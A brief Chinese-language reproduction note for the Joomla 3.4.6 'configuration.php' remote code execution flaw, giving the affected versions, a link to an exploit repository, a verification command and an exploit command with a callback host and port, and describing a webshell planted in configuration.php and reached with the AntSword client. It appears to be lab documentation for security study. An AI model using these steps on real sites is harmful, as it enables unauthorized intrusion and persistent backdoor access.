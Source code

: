 Joomla 3.4.6 configuration.php 远程代码执行
===========================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

https://github.com/ianxtianxt/Joomla-3.4.6\-\--configuration.php-Remote-Code-Execution

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](./resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId25.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](./resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId26.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马![](./resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId27.png)上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![](./resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId28.png)
